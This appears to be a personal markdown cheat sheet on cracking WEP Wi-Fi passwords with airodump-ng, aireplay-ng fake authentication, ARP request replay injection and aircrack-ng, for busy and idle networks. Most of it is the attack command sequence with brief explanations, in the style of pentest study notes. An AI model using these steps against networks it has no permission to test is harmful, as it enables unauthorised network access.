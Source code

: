 ```yaml
---
---

### Busy Network

````bash
airodump-ng <interface>
airodump-ng --bssid <router-bssid> --channel <channel> --write <filename> <interface>
aircrack-ng <filename>
````

* Minimum ~50K Data packets are required in order to crack the password
* Aircrack-ng output will not always consist of the password in ASCII format. We can connect to the network using the numeric password after removing the colons

---
```


### Idle Network

An "Association Attack/ Fake Authentication" needs to be performed in order to connect to the network and inject packets into the network in order to increase the traffic on the network.

Injecting packets onto the network can be done using "ARP Request Replay Attack". There are other methods but this is the most reliable approach

<u>Working</u>
  
Wait for an ARP packet to be generated  
Capture the packet and repeat it (Retransmit it)  
Each ARP packet will cause the Access Point to generate an new IV which can be collected to crack the password

````bash
airodump-ng <interface>
airodump-ng --bssid <router-bssid> --channel <channel> --write <filename> <interface>
aireplay-ng --fakeauth 0 -a <router-bssid> -h <myadapter-bssid> <interface>
````

The `<myadapter-bssid>` can be found using `ifconfig` under "unspec" field the 1st 6 fields. When using in aireply-ng replace the dashes with colons

Association with network only means that we want to connect to the network (Similar to clicking the network name in the available network list). We are not authenticated so we cannot send any packets

````bash
aireplay-ng --arpreplay -b <router-bssid> -h <myadapter-bssid> <interface>
aircrack-ng output.cap
````
